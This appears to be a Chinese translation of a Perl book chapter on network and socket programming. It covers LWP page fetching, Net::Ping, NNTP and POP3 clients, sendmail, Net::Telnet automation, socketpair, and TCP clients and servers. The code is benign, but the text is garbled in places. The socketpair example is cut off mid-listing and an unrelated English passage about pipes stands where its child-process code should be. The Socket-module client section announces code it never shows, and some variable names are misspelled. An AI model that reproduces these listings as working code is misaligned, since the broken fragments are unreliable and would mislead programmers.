```perl
use LWP::UserAgent;

$user_agent = new LWP::UserAgent;

$request = new HTTP::Request('GET',
    'http://www.cpan.org/doc/FAQs/index.html');

$response = $user_agent->request($request);
```

request 方法返回一个指向哈希的引用，该哈希包含以下键：_request, _protocol, _content, _headers, _previous, _rc, 和 _msg。网页的实际 HTML 内容存储在此哈希的 _content 键中，因此我可以像这样将网页存储到文件 file.txt 中：

```perl
use LWP::UserAgent;

$user_agent = new LWP::UserAgent;

$request = new HTTP::Request('GET',
    'http://www.cpan.org/doc/FAQs/index.html');

$response = $user_agent->request($request);

open FILEHANDLE, ">file.txt";

print FILEHANDLE $response->{_content};

close FILEHANDLE;
```

执行此程序后，file.txt 的内容如下所示：

```html
<TITLE>Perl FAQ Index</TITLE>
<CENTER>
<BODY BGCOLOR=#ffffff>
<A name="Top">
<h1>
        
Perl FAQ Index
        
</h1>
</a>
</CENTER>

The Perl <I>Frequently Asked Questions</i> list has been released
    .
    .
    .
```

## 第 20 章 网络与套接字编程

## Ping 主机

> "我现在上网了，"新手程序员说，"但我怎么知道还有谁在线？如果我想测试某个服务器是否存在呢？" "没问题，"你说，"你可以使用 **Net::Ping** 向该服务器发送一个测试数据包，并检查你得到的响应。"

你可以使用 **Net::Ping** 模块测试与远程互联网主机的连接。要使用 **Net::Ping**，你首先需要创建一个 ping 对象，然后使用该对象的 **ping** 方法来 ping——即向一个互联网主机发送一个测试数据包。你可以使用 TCP、ICMP 或 UDP 协议配合 **ping** 方法。你可以像这样创建一个新的 ping 对象：

```perl
$pingobject = Net::Ping->new([protocol [, defaultimeout [, bytes]]]);
```

所有这些参数都是可选的；*protocol* 可以是 **tcp**、**udp** 或 **icmp**（默认是 **udp**）。你可以在 **defaultimeout** 中指定以秒为单位的默认超时期限，并且可以在 **bytes** 参数中指定发送到主机的数据包中的字节数（最大为 1024）。

我像这样 ping 一个远程主机，并指定一个可选的超时期限：

```perl
$pingobect->ping(host [, timeout]);
```

当你使用完 **ping** 对象后，使用其 **close** 方法关闭它。在这个例子中，我使用 **Net::Ping** 来 ping 远程主机 **cpan.org**：

```perl
use Net::Ping;

$pingobject = Net::Ping->new(icmp);

if ($pingobject->ping('cpan.org')) {print "Could reach CPAN."};

$pingobject->close();
```

> *Could reach CPAN.*

## 从新闻组下载帖子

> "该死，"新手程序员说，"我想在工作时阅读 Usenet 上的文章，但老板说不行。我只是想阅读 Perl 新闻组而已。" "嗯，"你说，"用 Perl 来做怎么样？" 新手问："怎么做？"

你可以使用 CPAN 上的 **Net::NNTP** 或 **News::NNTPClient** 模块来阅读 Usenet 帖子，你也可以使用 **Net::NNTP** 模块向 Usenet 发帖。

例如，我将使用 **News::NNTPClient** 模块下载新闻组 **comp.lang.perl.moderated** 上所有当前的帖子到磁盘上的一个文件中。我首先使用此模块创建一个新对象，传入一个 Usenet 服务器的名称：

```perl
use News::NNTPClient;

$nntp = new News::NNTPClient('news.yourserver.com');
```

我可以像这样使用 **group** 方法获取 **comp.lang.perl.moderated** 组中当前的第一篇和最后一篇文章的编号：

```perl
use News::NNTPClient;

$nntp = new News::NNTPClient('news.yourserver.com');

($first, $last) = $nntp->group("comp.lang.perl.moderated");
```

现在，我可以将每篇文章的编号传递给 **article** 方法来请求该文章。我像这样下载并将所有当前文章存储到名为 file.txt 的文件中：

```perl
use News::NNTPClient;

$nntp = new News::NNTPClient('news.yourserver.com');

($first, $last) = $nntp->group("comp.lang.perl.moderated");

open FILEHANDLE, ">file.txt";

for ($loop_index = $first; $loop_index <= $last; $loop_index++) {
    print FILEHANDLE $nntp->article($loop_index);
}

close FILEHANDLE;
```

执行此代码后，所有文章都出现在 file.txt 中：

```
Path: nyc.uu.net!uunet!zur.uu.net!news.tvd
From: user@host.com ()
Newsgroups: comp.lang.perl.moderated
Subject: Faster way to read hashes from files?
Date: 20 Apr 20:43:33 GMT
Organization: Poster place, USA
Lines: 126
Sender: mjd-clpm-admin@server.com
Approved: mjd-clpm-admin@server.com
Message-ID: <slrn7hppbo.5jv.user>
NNTP-Posting-Host: host.com
X-Complaints-To: usenet@news.host.com
NNTP-Posting-Date: 20 Apr 20:43:33 GMT
X-Newsreader: slrn (0.9.4.3 UNIX)
X-Original-NNTP-Posting-Host: host.com
Xref: comp.lang.perl.moderated:2124

Hello,

I'm working on an application that reads a data file from a C application.
.
.
.
```

## 接收电子邮件

大老板又回来说："我需要一种快速简便的方法来检查是否有邮件在等我。如果有，我想把它们删除。" "你想不读就删？"你问。 "是的，"大老板说，"我开始收到关于新手程序员最新程序的反馈了。" "哦，"你说。

你可以使用 **Mail::POP3Client** 模块来检查和读取你的邮件。你使用 **new** 方法创建一个对象，然后你可以使用以下方法来操作你的 **POP3** 账户：

- **Alive** — 返回真或假，取决于连接是否活跃。
- **Body** — 获取指定消息的正文。
- **Close** — 关闭与服务器的连接。
- **Connect** — 开始与服务器的连接。你传入主机和端口。
- **Count** — 设置或返回可用消息的数量。
- **Delete** — 将指定消息编号标记为 **DELETED**。
- **Head** — 获取指定消息的头部。
- **HeadAndBody** — 获取指定消息的头部和正文。
- **Host** — 设置或返回当前主机。
- **Last** — 返回最后一条消息的编号。
- **List** — 返回消息大小的列表。
- **Login** — 登录到服务器连接。
- **Message** — 提供服务器返回的最后一条状态消息。
- **New** — 创建一个新的 **POP3** 连接。
- **Pass** — 设置或返回当前密码。
- **POPStat** — 返回 **STAT** 命令的结果。
- **Port** — 设置或返回当前端口号。
- **Reset** — 从任何标记为删除的消息中移除删除标记。
- **Size** — 设置或返回邮箱的大小。
- **Socket** — 返回当前套接字的文件描述符。
- **State** — 返回连接的内部状态。

在下一个例子中，我检查是否有邮件在等待，如果有，就将消息逐一下载到文件 file.txt 中。（如果你想从 **POP3** 服务器上删除这些消息，你还应该使用 **Delete** 方法。）

首先，我只需获取一个新的 **Mail::POP3Client** 对象，将用户名、密码和 **POP3** 服务器传递给 **new** 方法（你可以为这些项目提供你自己的值）：

```perl
use Mail::POP3Client;

$mail = new Mail::POP3Client("username",
"password", "pop3.yourserver.com");
```

现在，我使用 **Count** 方法检查是否有消息等待，如果有，就显示消息数量并指示消息将被保存：

```perl
use Mail::POP3Client;

$mail = new Mail::POP3Client("username",
"password", "pop3.yourserver.com");

if ($mail->Count) {
    print "You have ", $mail->Count, " new message(s).\n";
    print "Storing message(s) to disk.\n";
```

我将使用 **HeadAndBody** 方法像这样获取所有消息的头部和正文，并将它们存储到名为 file.txt 的文件中：

使用 `Mail::POP3Client`；

`$mail = new Mail::POP3Client("username", "password",
"pop3.yourserver.com");`

`if ($mail->Count) {`

`    print "You have ", $mail->Count, " new message(s).\n";`
`    print "Storing message(s) to disk.\n";`

`    open FILEHANDLE, ">file.txt";`

`    for($loop_index = 1; $loop_index <= $mail->Count; $loop_index++) {`
`        print FILEHANDLE $mail->HeadAndBody($loop_index);`
`    }`

`    close FILEHANDLE;`
`}`

当你运行这段代码时，会看到类似这样的输出：

> You have 4 new message(s).
Storing message(s) to disk.

这些消息将被存储到磁盘上的 file.txt 文件中。请注意，每条消息的正文出现在相当长的标头之后：

> Received: from default (server.net)
by host.com (8.8.8/8.8.8) with SMTP id NAA21935 for <user@host.com>;
Wed, 28 Apr 13:36:23 -0400 (EDT)
Message-Id: <3.0.3.32.19990428133546.00b52010@pop3.server.com>
X-Sender: steve@noplace.com
Date: Wed, 28 Apr 13:35:46 - 0400
To: steve@server.com
From: Steven Holzner <steve@noplace.com>
Subject: Greetings
Mime-Version: 1.0
Content-Type: text/plain; charset="us-ascii"
X-UIDL: 422bc15d9e8b5823c32e893a5a91062Status: RO
Dear Steve:
    Hi there!
        Best regards, Steve

供参考，这个名为 email.pl 的程序如下所示：

```
use Mail::POP3Client;

$mail = new Mail::POP3Client("username",
"password", "pop3.yourserver.com");

if ($mail->Count) {

    print "You have ", $mail->Count, " new message(s).\n";
    print "Storing message(s) to disk.\n";

    open FILEHANDLE, ">file.txt";

    for($loop_index = 1; $loop_index <= $mail->Count; $loop_index++) {
        print FILEHANDLE $mail->HeadAndBody($loop_index);
    }
    close FILEHANDLE;
}
```

## 发送电子邮件

"嘿，"初级程序员说，"我现在可以通过使用 **Mail::POP3Client** 来下载电子邮件了，但是发送邮件呢？""嗯，"你说，"你可以使用 CPAN 模块 **Mail::Mailer**，但许多程序员只是使用 Unix 的 **sendmail** 程序。"

你可以使用 **Mail::Mailer** 模块来发送邮件；该模块的 MS-DOS 版本目前不可用，但 Unix 版本可用。不过，许多 Unix 程序员只是使用 **sendmail** 程序来发送邮件。

你可以轻松地调整以下示例以在你自己的 Unix 系统上工作；此示例发送一封简短的电子邮件，如下所示：

```
open(MAIL, '| /usr/lib/sendmail -t -oi');

print MAIL <<EOF;
To: steve\@server.com
From: steve\@host.com
Subject: Greetings
Hi Steve!
EOF

close MAIL;
```

要使用此代码，请自定义系统上 **sendmail** 程序的位置（通常在 /usr/lib），以及 **To:**、**From:** 和 **Subject:** 行。

## 使用 Telnet

"我们有个问题，"大老板说。"我希望我们的现场员工能够在我们的主服务器上运行程序以获取最新的价格，但他们中的许多人不知道如何使用 Telnet 进行远程登录并运行该程序。""没问题，"你说。"我可以使用 **Net::Telnet** 模块将整个过程自动化。"

你可以使用 Telnet 远程登录到主机计算机，并且可以通过在 Perl 中使用 **Net::Telnet** 模块来使该过程自动化。你使用 **new** 方法创建一个 Telnet 对象，使用 **login** 方法登录，并使用 **cmd** 方法向远程主机发送命令。你发送的命令的结果由 **cmd** 方法返回。

以下示例自动化了通过 Telnet 登录并找出主机上 code22 目录中有哪些文件的过程。为此，我使用 **new** 方法创建一个新的 Telnet 对象。我向此方法传递一个超时时间（以秒为单位）、我想要登录的远程主机的名称以及该远程主机上使用的命令提示符。然后，我将远程主机使用的提示符传递给 **new** 方法，以便 **Net::Telnet** 模块通过检查该提示符来知道该主机何时在等待输入：

```
use Net::Telnet;

$telnet = Net::Telnet->new
(
    Timeout => 90,
    Prompt  => '%',
    Host => 'server.com'
);
```

现在，我使用 **login** 方法用用户名和密码登录：

```
use Net::Telnet;

$telnet = Net::Telnet->new
(
    Timeout => 90,
    Prompt  => '%',
    Host => 'server.com'
);

$telnet->login('username', 'password');
```

最后，我使用 **cmd** 方法向远程主机发送命令，通过使用 Unix 的 **ls** 命令检查 **code22** 目录中有哪些文件：

```
$telnet->cmd("cd code22");
@listing = $telnet->cmd("ls");
print "Here are the files:\n";
print "@listing";
$telnet->close;
```

```
Here are the files:
 a.pl           b.pl           c.pl           d.pl
 e.pl           f.pl           g.pl           h.pl
 i.pl           j.pl           k.pl
```

就是这样。正如你所看到的，你可以通过使用 **Net::Telnet** 轻松地使 Telnet 会话自动化。事实上，如果你从控制台接受命令并显示在远程主机上执行这些命令返回的结果，你还可以模拟一个交互式的 Telnet 会话。

## 使用套接字对进行进程间通信

"见鬼，"初级程序员说，"我正试图在我的游戏程序之间建立进程间通信，但双向管道似乎总是卡住。""没问题，"你说，"改用套接字对吧。"

你可以使用 **Socket** 模块的 **socketpair** 函数创建一对套接字，你可以在单个程序中使用它们在进程之间进行通信。你通常在 fork 创建新进程之前使用 **socketpair**，并使用两个连接的套接字在进程之间进行通信。请注意，此函数返回一对供一个程序使用的套接字，因此如果你想通过互联网在两个独立的主机之间进行通信，则不应使用 **socketpair**。

你可以像这样创建一个 **socketpair**：

```
socketpair SOCKET1, SOCKET2, DOMAIN, TYPE, PROTOCOL
```

这里，***SOCKET1*** 是第一个套接字，***SOCKET2*** 是第二个套接字，***DOMAIN*** 是你想要套接字所在的域，***TYPE*** 是你想要的套接字类型（**SOCK_STREAM** 创建 TCP 类型的连接，**SOCK_DGRAM** 创建带有数据报的 UDP 类型连接，**SOCK_SEQPACKET** 创建顺序数据包连接），***PROTOCOL*** 是你想要使用的协议。

在以下示例中，我 **fork** 一个子进程，并让父进程和子进程进行通信。我首先像这样创建一对套接字：

```
use Socket;
use IO::Handle;

socketpair(CHILDHANDLE, PARENTHANDLE, AF_UNIX, SOCK_STREAM, PF_UNSPEC)
    or  die "Could not create socketpair.";
```

现在，我通过使用 **IO::Handle autoflush** 方法确保 **socketpair** 是无缓冲的：

```
use Socket;
use IO::Handle;

socketpair(CHILDHANDLE, PARENTHANDLE, AF_UNIX, SOCK_STREAM, PF_UNSPEC)
    or  die "Could not create socketpair.";

CHILDHANDLE->autoflush(1);
PARENTHANDLE->autoflush(1);
```

接下来，我 fork 一个新的进程，关闭父句柄，写入子句柄，然后从子句柄读取，如下所示：

```
use Socket;
use IO::Handle;

socketpair(CHILDHANDLE, PARENTHANDLE, AF_UNIX, SOCK_STREAM, PF_UNSPEC)
    or  die "Could not create socketpair.";

CHILDHANDLE->autoflush(1);
PARENTHANDLE->autoflush(1);

if ($pid = fork) {

    close PARENTHANDLE;

    print CHILDHANDLE "Hello from the parent!\n";

    $line = <CHILDHANDLE>;

    print "Parent read: $line";

    close CHILDHANDLE;

    waitpid($pid,0);
```

剩下的就是实现子进程；在这里，我将关闭子句柄，写入父进程，并读取父进程写入的内容：

```
use Socket;
use IO::Handle;

socketpair(CHILDHANDLE, PARENTHANDLE, AF_UNIX, SOCK_STREAM, PF_UNSPEC)
    or  die "Could not create socketpair.";

CHILDHANDLE->autoflush(1);
PARENTHANDLE->autoflush(1);

if ($pid = fork) {

    SYNCHRONOUS I/O
    The socketpair function creates two filehandles that are associated with each other. Because the operations from this point on are basic I/O, you probably won't be surprised that the child process code is similar to the pipe version.
```


## 使用 IO::Socket 创建 TCP 客户端

新手程序员问道：“好吧，我准备好学习一些关于互联网机器间的套接字编程了。” 你微笑着说：“哦，是吗？那么，我想你最好从 **IO::Socket** 开始。”

要通过套接字在互联网上进行通信，你需要使用一个客户端程序和一个服务器程序，分别位于每台主机上。（请注意，两个程序可以位于同一台主机上。）你可以使用套接字将客户端连接到服务器。然后服务器可以向客户端发送数据，客户端也可以向服务器发送数据。

在这个主题中，我将使用 **IO::Socket** 模块创建一个客户端应用程序，该应用程序使用 TCP 连接到服务器机器上的一个端口。在下一个主题中，我将编写相应的服务器应用程序。

要创建套接字，你可以使用 **IO::Socket::INET** 的 **new** 方法。以下是可以传递给该方法的命名参数：

-   **PeerAddr**—你想要连接的机器的 DNS 地址（即 *xxx.xxx.xxx.xxx*）或名称（即 **server.com**）。
-   **PeerPort**—你想要连接到的主机机器上的端口。
-   **Proto**—你想要使用的连接协议，**tcp** 或 **udp**。
-   **Type**—你想要的连接类型。对于 TCP 数据流连接使用 **SOCK_STREAM**，对于 UDP 数据报使用 **SOCK_DGRAM**，或对于顺序数据包连接使用 **SOCK_SEQPACKET**。
-   **LocalAddr**—要绑定的本地地址（如果有）。
-   **LocalPort**—要使用的本地端口（如果有）。
-   **Listen**—队列大小（允许的客户端数量）；最大值为 **SOMAXCONN**。
-   **Reuse**—绑定设置为 **SO_REUSEADDR**。
-   **Timeout**—连接的超时值。

**new** 方法返回一个包含文件句柄的标量，在 Perl 中这是一个 *间接文件句柄*。你可以像使用 Perl 中的其他文件句柄一样使用间接文件句柄，通过使用尖括号操作符 **<** 和 **>** 来读取，或使用 **print** 来写入。

你使用尖括号操作符和 **print** 来处理面向行的消息。但是，你也可以使用 **send** 向套接字发送字节流，像这样：

```perl
$socket->send($data, $flags) or die "Could not send data.\n";
```

而且，你可以使用 **recv** 来读取字节数据，而不是尖括号操作符；在这种情况下，我通过 **$length** 指定要读取的字节数：

```perl
$socket->recv($data_buffer, $length, $flags) or die
"Could not get data.\n";
```

在这个例子中，我创建了一个将连接到服务器端口 1116 的 TCP 客户端。我首先使用 **IO::Socket new** 方法创建一个套接字：

```perl
use IO::Socket;

$socket = IO::Socket::INET->new
(
    PeerAddr => 'yourserver.com',
    PeerPort => 1116,
    Proto    => "tcp",
    Type     => SOCK_STREAM
) or die "Could not open port.\n";
```

连接建立后，你可以向服务器写入数据或从服务器读取数据。我先来看看如何向服务器写入。

## 向服务器写入

在 **socket** 连接建立后，你可以使用 **print** 函数向服务器写入数据，像这样：

```perl
use IO::Socket;

$socket = IO::Socket::INET->new
(
    PeerAddr => 'yourserver.com',
    PeerPort => 1116,
    Proto    => "tcp",
    Type     => SOCK_STREAM
) or die "Could not open port.\n";

print $socket "Hello from the client!\n";

close($socket);
```

现在，当你运行一个从客户端读取数据的服务器时，例如下一个主题中开发的服务器，服务器将等待客户端连接到它：

```bash
%perl server.pl
```

接下来，你在另一台机器上运行客户端程序，向服务器发送文本：

```bash
%perl client.pl
```

当你这样做时，你会在服务器的控制台上看到以下结果：

```bash
%perl server.pl
Hello from the client!
```

除了向服务器写入，你还可以从服务器读取。

## 从服务器读取

如果你想从服务器读取数据，你可以使用尖括号操作符，就像这个客户端从服务器读取 **Hello from the server!** 的例子一样（我将在下一个主题中为这个例子开发服务器代码）：

```perl
use IO::Socket;

$socket = IO::Socket::INET->new
(
    PeerAddr => 'yourserver.com',
    PeerPort => 1116,
    Proto    => "tcp",
    Type     => SOCK_STREAM
) or die "Could not open port.\n";

$answer = <$socket>;

print $answer;

close($socket);
```

要使用这个客户端，你首先在你的主机机器上运行一个将向客户端写入数据的服务器，例如我在下一个主题中开发的那个：

```bash
%perl server.pl
```

然后，在另一台机器上，你运行从服务器读取数据的客户端程序，你会在客户端的控制台上看到消息 **Hello from the server!**：

```bash
%perl client.pl
Hello from the server!
```

要使用本主题中开发的 TCP 客户端，请使用我在下一个主题中开发的 TCP 服务器。

## 使用 IO::Socket 创建 TCP 服务器

> “好吧，”新手程序员说，“我已经创建了一个 TCP 客户端。那么，创建一个 TCP 服务器呢？这样我才有东西可以连接。” “没问题，”你说，“只需要在主机机器上创建一个程序，在客户端程序访问的相同端口上打开一个套接字。”

在上一个主题中，我创建了一个 TCP 客户端程序；在这个主题中，我将创建一个客户端程序可以连接的 TCP 服务器。

要创建套接字，你可以使用 **IO::Socket::INET** 的 **new** 方法。以下是可以传递给该方法的命名参数：

-   **PeerAddr**—你想要连接的机器的 DNS 地址（即 *xxx.xxx.xxx.xxx*）或名称（即 **server.com**）。
-   **PeerPort**—你想要连接到的主机机器上的端口。
-   **Proto**—你想要使用的连接协议，**tcp** 或 **udp**。
-   **Type**—你想要的连接类型。对于 TCP 数据流连接使用 **SOCK_STREAM**，对于 UDP 数据报使用 **SOCK_DGRAM**，或对于顺序数据包连接使用 **SOCK_SEQPACKET**。
-   **LocalAddr**—要绑定的本地地址（如果有）。
-   **LocalPort**—要使用的本地端口（如果有）。
-   **Listen**—队列大小（允许的客户端数量）；最大值为 **SOMAXCONN**。
-   **Reuse**—绑定设置为 **SO_REUSEADDR**。
-   **Timeout**—连接的超时值。

你像这样在 TCP 服务器代码中打开一个套接字：

```perl
use IO::Socket;

$server = IO::Socket::INET->new
(
    LocalPort => 1116,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not open port.\n";
```

你像这样使用 **accept** 方法使服务器等待客户端连接：

```perl
use IO::Socket;

$server = IO::Socket::INET->new
(
    LocalPort => 1116,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not open port.\n";

while ($client = $server->accept()) {
    .
    .
    .
}
```

当客户端连接建立后，**while** 循环的主体被执行，你可以从客户端读取或向客户端写入。我先来看看如何从客户端读取。

### 从客户端读取

你可以从客户端读取一行文本并如下显示该文本：

```perl
use IO::Socket;

$server = IO::Socket::INET->new
(
    LocalPort => 1116,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not open port.\n";

while ($client = $server->accept()) {

    $line = <$client>;

    print $line;

}

close($server);
```

现在，当你运行服务器时，它将等待客户端连接到它：

```bash
%perl server.pl
```

接下来，你从上一个主题运行客户端程序，在另一台机器上向服务器发送文本：

```bash
%perl client.pl
```

当你这样做时，你会在服务器的控制台上看到以下结果：

```bash
%perl server.pl
Hello from the client!
```

你也可以向客户端写入。

## 向客户端写入

以下服务器向客户端写入：

```perl
use IO::Socket;
```


## 第20章 网络与Socket编程

```
$server = IO::Socket::INET->new
(
    LocalPort => 1116,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not open port.\n";

while ($client = $server->accept()) {
    print $client "Hello from the server!\n";
}

close($server);
```

首先，在主机上运行这个服务器：

```
%perl server.pl
```

然后，在另一台机器上，或者在同一台机器的新会话中，运行前面章节中读取服务器的客户端程序，你将在客户端的控制台上看到消息 **Hello from the server!**：

```
%perl client.pl
```

> Hello from the server!

现在，我们已经创建了可以读写的客户端和服务器。实际上，客户端和服务器都可以通过同一个socket进行读写。详情请参阅下一节。

### 使用多线程通过IO::Socket创建交互式双向客户端/服务器应用

新手程序员说："我想写一个交互式客户端/服务器应用，让用户在机器之间来回输入消息，但我有个问题。当我用 **\<STDIN>** 等待一个用户输入内容时，我怎么同时用 **\<$socket>** 监听另一个用户的输入呢？"你说："没问题，只要 **fork** 一个新进程就好了。父进程可以监听用户，子进程可以监听socket。"

当你创建异步双向客户端/服务器应用时，你可能会遇到需要同时等待双方输入的情况，比如两个用户正在来回输入消息，或者双方程序以不同速率产生输出。注意，如果你使用 **$line = \<STDIN>** 这样的代码，你将一直阻塞等待，直到用户输入内容后才能用类似 **$line = \<$socket>** 的代码检查是否有数据通过socket传入。解决方案是 **fork** 一个新进程，这样你就可以在客户端和服务器端同时监听双方。

看下面这个例子。在这个例子中，我将创建两个新应用：2wayclient.pl 和 2wayserver.pl。你先运行 2wayserver.pl，然后在另一台机器上，或者在同一台机器的不同会话中运行 2wayclient.pl，你在一个应用中输入的所有内容都会在另一个应用中回显，实现真正的异步双向通信（模拟Unix工具如 **talk** 或 **ytalk**）。

下面是我创建客户端 2wayclient.pl 的方式。首先，像这样连接到服务器（你可以填入自己的主机名和端口号）：

```
use IO::Socket;

$socket = IO::Socket::INET->new
(
    PeerAddr => 'server.com',
    PeerPort => 1247,
    Proto    => "tcp",
    Type     => SOCK_STREAM
) or die "Could not create client.\n";
```

现在，连接已建立，我 **fork** 一个子进程：

```
use IO::Socket;

$socket = IO::Socket::INET->new
(
    PeerAddr => 'server.com',
    PeerPort => 1247,
    Proto    => "tcp",
    Type     => SOCK_STREAM
) or die "Could not create client.\n";

unless (defined($child_pid = fork())) {die "Can not fork.\n"};
```

在父进程中，我监听用户的输入并将其发送到socket：

```
if ($child_pid) {
    while ($line = <>) {
        print $socket $line;
    }
```

在子进程中，我监听socket并打印来自另一个用户的消息：

```
if ($child_pid) {
    while ($line = <>) {
        print $socket $line;
    }

} else {
    while($line = <$socket>) {
        print "Read this from server: $line";
    }
}
```

客户端就是这样了。

在服务器端 2wayserver.pl 中，我首先在客户端用于连接请求的相同端口上监听：

```
use IO::Socket;

$server = IO::Socket::INET->new
(
    LocalPort => 1247,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not create server.\n";

while ($client = $server->accept()) {
```

当连接建立后，我 **fork** 创建一个新的子进程：

```
use IO::Socket;

$server = IO::Socket::INET->new
(
    LocalPort => 1247,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not create server.\n";

while ($client = $server->accept()) {

    unless (defined($child_pid = fork())) {die "Can not fork.\n"};
```

在父进程中，我监听来自另一个用户的socket输入，并打印该输入（如果有的话）：

```
if ($child_pid) {
    while ($line = <$client>) {
        print "Read this from client: $line";
    }
}
```

在子进程中，我从用户那里读取 **STDIN** 输入，并以如下方式发送给另一个用户：

```
if ($child_pid) {
    while ($line = <$client>) {
        print "Read this from client: $line";
    }

} else {
    while ($line = <>) {
        print $client $line;
    }
}
```

如果有必要，我可以通过 **socketpair** 在父进程和子进程之间进行通信，比如当应用想要在返回结果之前先处理对方发送的数据时。

就是这样。现在，当你在一台机器上运行服务器，在另一台机器上（或同一台机器的不同会话中）运行客户端时，你就可以通过Internet进行对话了，以下是服务器端的视角：

```
% perl 2wayserver.pl

Read this from client: Hi sweetie!
Hi adorable!
Read this from client: What's cooking?
Meatballs.
```

以下是客户端的视角：

```
% perl5 2wayclient.pl

Hi sweetie!
Read this from server: Hi adorable!
What's cooking?
Read this from server: Meatballs.
```

这个例子很成功；作为参考，下面是 2wayclient.pl 的完整代码，紧接着是 2wayserver.pl：

```
use IO::Socket;

$socket = IO::Socket::INET->new
(
    PeerAddr => 'server.com',
    PeerPort => 1247,
    Proto    => "tcp",
    Type     => SOCK_STREAM
) or die "Could not create client.\n";

unless (defined($child_pid = fork())) {die "Can not fork.\n"};
```

```
if ($child_pid) {
    while ($line = <>) {
        print $socket $line;
    }

} else {
    while($line = <$socket>) {
        print "Read this from server: $line";
    }
}
```

2wayserver.pl 如下：

```
use IO::Socket;

$server = IO::Socket::INET->new
(
    LocalPort => 1247,
    Type      => SOCK_STREAM,
    Reuse     => 1,
    Listen    => 5
) or die "Could not create server.\n";

while ($client = $server->accept()) {

    unless (defined($child_pid = fork())) {die "Can not fork.\n"};

    if ($child_pid) {
        while ($line = <$client>) {
            print "Read this from client: $line";
        }
    }
```

```
} else {
    while ($line = <>) {
        print $client $line;
    }
}
}
```

### 使用Socket创建TCP客户端

新手程序员说："救命！大老板要派我去西部的分公司，他们用的是旧版本的Perl。没有 **IO::Socket** 我怎么做socket编程？"你说："在 **IO::Socket** 之前，程序员使用的是 **Socket** 模块，你现在仍然可以使用它。另外，一路顺风，NP。别忘了寄张明信片回来。""谢谢，"NP沮丧地说。

除了使用面向对象的 **IO::Socket** 模块外，你也可以使用 **Socket** 模块来创建socket。你可以用 **socket** 函数创建socket，像这样：

```
socket SOCKET, DOMAIN, TYPE, PROTOCOL
```

第一个参数是你想要创建的socket文件句柄的名称，连接建立后，你就可以像使用其他任何文件句柄一样使用该文件句柄，用尖括号操作符监听socket，用 **print** 发送数据。

你可以使用尖括号操作符和 **print** 处理面向行的消息（即以换行符结尾的文本字符串）。你也可以使用 **send** 函数向socket发送字节数据：

```
send(SOCKET, $data, $flags);
```

此外，你可以使用 **recv** 读取字节流数据；在这个例子中，我从 **SOCKET** 请求 **$length** 个字节：

```
recv(SOCKET, $data_buffer, $length, $flags)
    or die "Can not receive data.\n";
```

我在这里创建一个示例来展示这是如何工作的。在本节中，我将创建客户端应用的两个版本——一个写入服务器，一个从服务器读取。在下一节中，我将编写对应的服务器应用。

我使用 **socket** 函数在客户端中创建socket，如下所示，表明我想要一个使用TCP数据流的Internet连接（注意你应该使用 **getprotobyname** 函数来指定通信协议）：


## 写入服务器

写入服务器很容易；只需将套接字视为文件句柄即可，如下所示：

```perl
use Socket;

socket(SERVER, PF_INET, SOCK_STREAM, getprotobyname('tcp'));

$addr = sockaddr_in(2336, inet_aton('server.com'));

connect(SERVER, $addr)
    or die "Could not connect.\n";

print SERVER "Hello from the client!\n";

close(SERVER);
```

现在，当你运行一个从客户端读取数据的服务器时（例如在下一个主题中开发的服务器），服务器将等待客户端连接：

```
%perl server.pl
```

接下来，你在另一台机器上运行客户端程序，向服务器发送文本：

```
%perl client.pl
```

当你这样做时，你将在服务器的控制台看到以下结果：

```
%perl server.pl
```

> Hello from the client!

除了写入服务器，你还可以从服务器读取数据。

# 从服务器读取

连接到服务器后，从服务器读取数据很容易；例如，你可以按如下方式使用尖括号运算符：

```perl
use Socket;

socket(SERVER, PF_INET, SOCK_STREAM, getprotobyname('tcp'));

$addr = sockaddr_in(2336, inet_aton('server.com'));

connect(SERVER, $addr)
    or die "Could not connect.\n";

$line = <SERVER>;

print $line;

close(SERVER);
```

要使用此客户端，你首先在主机上运行一个将写入客户端的服务器（例如我在下一个主题中开发的服务器）：

```
%perl server.pl
```

然后，在另一台机器上，你运行从服务器读取的客户端程序，你将在客户端的控制台看到消息 **Hello from the server!**：

```
%perl client.pl
```

> Hello from the server!

要使用本主题中开发的 TCP 客户端，请使用我在下一个主题中开发的 TCP 服务器。

# 使用 Socket 创建 TCP 服务器

**“好的，”** 新手程序员说，**“我已经使用 Socket 模块创建了一个客户端应用程序。我该如何创建一个服务器？”** **“那个过程比创建客户端稍微复杂一些，”** 你说，**“但不会复杂太多。”**

使用 **Socket** 模块创建服务器应用程序并不比创建客户端困难多少；你只需添加监听连接并接受它们的代码即可。

看看这个例子。在这个例子中，我将编写两个服务器，它们将接受上一个主题中开发的两个客户端的连接。首先，我获取服务器的**打包**地址，就像为客户端所做的那样。不过，我使用 **bind** 函数将服务器绑定到端口，而不是使用 **connect** 函数连接到服务器：

```perl
use Socket;

socket(SERVER, PF_INET, SOCK_STREAM, getprotobyname('tcp'));

setsockopt(SERVER, SOL_SOCKET, SO_REUSEADDR, 1);

$addr = sockaddr_in(2336, inet_aton('server.com'));

bind(SERVER, $addr)
    or die "Could not bind to port.\n";
```

然后，我监听该端口以接收客户端连接（**SOMAXCONN** 是允许的最大连接数）：

```perl
listen(SERVER, SOMAXCONN)
    or die "Could not listen to port.\n";
```

现在，我可以使用 **accept** 函数来接受客户端连接：

```perl
while (accept(CLIENT, SERVER)) {
    .
    .
    .
}
```

当客户端连接到服务器时，你可以使用 **CLIENT** 文件句柄从客户端读取或写入客户端。我将首先介绍从客户端读取。

### 从客户端读取

要从客户端读取，你可以像这样使用尖括号运算符：

```perl
listen(SERVER, SOMAXCONN)
    or die "Could not listen to port.\n";

while (accept(CLIENT, SERVER)) {
    $line = <CLIENT>;
    print $line;
}

close(SERVER);
```

就是这样；现在，当你运行服务器时，它将等待客户端连接：

```
%perl server.pl
```

接下来，你可以在另一台机器上运行上一个主题中向服务器发送文本的客户端程序：

```
%perl client.pl
```

当你这样做时，你将在服务器的控制台看到以下结果：

```
%perl server.pl

Hello from the client!
```

你也可以写入客户端，所以我现在来介绍这个。

### 写入客户端

你可以像这样使用 **print** 函数写入客户端：

```perl
while (accept(CLIENT, SERVER)) {
    print CLIENT "Hello from the server!\n";
}

close(SERVER);
```

